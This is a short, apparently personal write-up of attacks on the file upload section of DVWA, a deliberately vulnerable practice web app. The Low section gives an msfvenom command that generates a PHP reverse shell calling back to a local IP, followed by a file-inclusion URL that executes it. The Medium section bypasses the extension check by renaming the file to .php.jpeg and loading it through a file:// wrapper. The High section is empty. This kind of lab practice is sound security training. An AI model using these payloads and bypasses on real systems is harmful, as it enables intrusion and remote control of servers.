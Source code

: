## Low

- For low I tried meterpeter shell for php, both staged and unstaged, it didn't work but then I tried simple reverse_shell and it worked.
- `msfvenom -p php/reverse_php LHOST=192.168.0.111 LPORT=4444 -f raw > shell_2.php`
- I was able to upload the shell_2.php without any issue, and got it executed by a file inclusion vulnerability at 
	- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell_2.php`


## Medium

- Since this time a .jpeg or .png extension was required, i renamed the same shell to `shell_2.php.jpeg`. And uploaded this bad boy.
- And since for medium level security file inclusion vulnerability has some security measures in place but it is still vulnerable to `file://` wrapper. I used that.
	- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=file://C:/xampp/htdocs/dvwa/hackable/uploads/shell_2.php.jpeg`


## High

